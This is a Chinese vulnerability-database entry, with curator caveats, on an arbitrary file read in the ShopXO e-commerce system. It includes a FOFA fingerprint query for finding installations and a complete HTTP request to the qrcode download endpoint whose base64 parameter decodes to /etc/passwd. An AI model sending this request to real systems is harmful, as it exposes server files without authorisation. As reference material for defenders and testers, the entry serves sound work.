


# ShopXO qrcode download文件读取

## 条目说明

- 对象与具体问题：ShopXO；qrcode download文件读取
- 版本、配置及部署条件：version字段产品名不是版本
- 认证与权限前提：请求匿名示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 推荐用此较清爽正文结合145CNVD链接
- 截图资源本地存在但未视检，不等同结果已核
- 缺影响版本、修复和路径约束

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息

### 漏洞影响

```
ShopXO
```

### 网络测绘

```
app="ShopXO企业级B2C电商系统提供商"
```

### 漏洞复现

商城主页如下



发送漏洞请求包

```http
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

其中 **/url/xxxx** 中的 base64 解码后为 **/etc/passwd**



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
